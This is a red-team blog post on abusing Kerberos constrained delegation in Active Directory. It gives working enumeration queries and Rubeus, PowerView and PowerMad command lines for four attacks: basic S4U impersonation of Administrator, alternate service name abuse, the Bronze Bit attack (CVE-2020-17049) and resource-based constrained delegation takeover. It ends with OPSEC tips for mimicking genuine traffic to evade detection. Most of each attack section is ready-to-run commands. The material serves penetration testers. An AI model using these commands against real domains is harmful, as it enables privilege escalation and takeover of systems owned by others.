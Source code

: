 ```yaml
---
title: 4 Ways to Abuse Constrained Delegation
date: 2022-03-15 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Various Attacks For Constrained Delegation Abuse
---
```


# Constrained Delegation

-------------------------------------------------------

Table of Contents:
- [Attack Variants](#attack-variants)
	- [Basic Constrained Delegation Exploitation](#Basic-Constrained-Delegation-Exploitation)
	- [Alternate Service Name Abuse](#alternate-service-name-abuse)
	- [Bronze Bit Attack](#bronze-bit-attack)
	- [Abusing Resource Based Constrained Delegation](#abusing-resource-based-constrained-delegation)
- [OPSEC](#opsec)
- [Resources](#resources)

-------------------------------------------------------

**Constrained Delegation** was soon released after unconstrained delegation as a safer means for services to perform Kerberos delegation. It aims to restrict the services to which the server can act on behalf of a user. It no longer allows the server to cache the TGTs of other users, but allows it to request a TGS for another user with its own TGT.

To impersonate the user, *Service for User (S4U)* extensions are used which provides two extensions:
- **Service for User to Self (S4U2self)** - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the *TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION – T2A4D UserAccountControl* attribute.
- **Service for User to Proxy (S4U2proxy)** - Allows a service to obtain a TGS to a second service on behalf of a user. Which second service? This is controlled by *msDS-AllowedToDelegateTo* attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.

![](Constrained1.png)

To perform the delegation, we ultimately need the TGT of the principal (**machine or user**) trusted for delegation. We can extract it from a machine (Rubeus dump) or request one using the NTLM/AES keys (Mimikatz `sekurlsa::ekeys` + Rubeus `asktgt`).

Enumerate users/computers with constrained Delegation
- In Bloodhound: 
	- Users:
	```
	MATCH (c:User), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
	```
	- Computers: 
	```
	MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
	````
- Using Powerview:
	- Users: 
	```
	Get-DomainUser –TrustedToAuth
	```
	- Computers:
	```
	Get-DomainComputer –TrustedToAuth
	```
- Using ADModule enumerate both for computers and users: 
```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
> NOTE: Constrained delegation can be configured on user accounts as well as computer accounts.  Make sure you search for both.

------------------------------------------------------

# Attack Variants

## Basic Constrained Delegation Exploitation

- To perform the delegation, we ultimately need the TGT of the principal (machine or user) trusted for delegation.  We can extract it from a machine (Rubeus `dump`) or request one using the NTLM / AES keys (Mimikatz `sekurlsa::ekeys` + Rubeus `asktgt)`: 
```
.\Rubeus.exe asktgt /user:svc_with_delegation /domain:targetdomain.com /rc4:2892......1211414
```
1. Use `s4u2self` and `s4u2proxy` to impersonate the Target user delegated to the allowed SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:cifs/dc /ptt
```

## Alternate Service Name Abuse

- Another interesting issue in Kerberos is that the delegation occurs not only for the specified service on the target machine but for any service running on the machine under the same account name. There is no validation for the SPN specified in s4u. 
- This is huge as it allows access to many interesting services such as `CIFS` when the delegation may be for a non-intrusive service like `TIME`.
1. Use `s4u2self` and `s4u2proxy` to impersonate the Target user delegated to an alternate SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /altservice:cifs /ptt
```

## Bronze Bit Attack

- *CVE-2020-17049* - An attacker can impersonate users which are not allowed to be delegated. This includes members of the **Protected Users group** and any other users explicitly configured as sensitive and cannot be delegated.
- Patch is out on November 10, 2020, DC are most likely vulnerable until *February 2021*.
- `Patched Error Message` : `[-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)`
1. Use `s4u2self` and `s4u2proxy` to impersonate a user who is protected from delegation: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:cifs/dc /bronzebit /ptt
```
2. This attack can also be chained with the `altservice` attack to delegate to an alternate SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /bronzebit /altservice:cifs /ptt
```

## Abusing Resource Based Constrained Delegation
- It's possible to gain code execution with elevated privileges on a remote computer if you have *WRITE* privilege on that computer's AD object.
- Resource-Based Constrained Delegation (RBCD) configures the backend server (e.g. MSSQL) to allow only selected frontend services (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.
- DACL Property: `msDS-AllowedToActOnBehalfOfOtherIdentity`.
- In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the frontend service) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the backend service. This means that the frontend service needs to have an SPN set. Thus, attacks against RBCD have to be performed from either a service account with SPN or a machine account.
- If we compromise a frontend service that appears in the RBCD property of a backend service, exploitation is the same as with constrained delegation above. This is however not too common.
- A more often-seen attack to RBCD is when we have *GenericWrite, GenericAll, WriteProperty, or WriteDACL* permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation.
1. Create a new machine account using PowerMad: 
```
New-MachineAccount -MachineAccount NewMachine -Password $(ConvertTo-SecureString 'P4ssword123!' -AsPlainText -Force)
```
2. Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target:
```
$sid = Get-DomainComputer -Identity NewMachine -Properties objectsid | Select -Expand objectsid; $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"; $SDbytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($SDbytes,0)
```
3. Use PowerView to use our `GenericWrite` (or similar) priv to apply this SD to the target: 
```
Get-DomainComputer -Identity TargetSrv | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
4. Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target:
```
.\Rubeus.exe s4u /user:NewMachine$ /rc4:A9A70FD4DF48FBFAB37E257CFA953312 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv.targetdomain.com /ptt
```

-----------------------------------------------------

# OPSEC

- We should request TGTs with the AES keys (`/aes256:a561a175e395758550c912......`) rather than NTLM hash.
- Rubeus also has an `/opsec` argument which tells it to send the request without *pre-auth*, to more closely emulate genuine Kerberos traffic.

-----------------------------------------------------

# Resources
-  https://courses.zeropointsecurity.co.uk/courses/red-team-ops
-  https://www.pentesteracademy.com/activedirectorylab
-  https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
-  https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference






